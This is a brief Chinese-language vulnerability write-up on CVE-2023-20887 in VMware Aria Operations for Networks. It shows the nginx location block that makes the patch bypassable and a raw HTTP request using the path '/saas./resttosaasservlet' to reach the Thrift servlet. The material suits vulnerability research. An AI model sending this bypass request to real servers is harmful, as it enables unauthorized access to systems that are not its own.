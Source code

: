 由于 nginx 配置不当和拼接命令导致的 rce，用了 thrift 做 rpc。

# VMSA-2023-0012

Aria Operations for Networks Command Injection Vulnerability (CVE-2023-20887) 是对 nginx 规则的绕过

[![](assets/1701612478-724f720d1841683b0e61183bd697d1d9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230614102952-577095de-0a5b-1.png)

上面的漏洞补丁放宽正则禁止了/saasresttosaasservlet 路由，但是下面还有一个 location 块

```plain
location /saas {
    rewrite ^/saas(.*)$ /$1 break;
    proxy_pass http://127.0.0.1:9090;
    proxy_redirect off;
    proxy_buffering off;
    proxy_set_header        Host            $host;
    proxy_set_header        X-Real-IP       $remote_addr;
    proxy_set_header        X-Forwarded-For $proxy_add_x_forwarded_for;
}
```

所以可以绕过

```plain
POST /saas./resttosaasservlet HTTP/2
Host: 192.168.1.155
User-Agent: Java/THttpClient/HC
Accept: application/x-thrift
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 43

[1,"getSystemInfo",1,1,{"1":{"i32":10000}}]
```
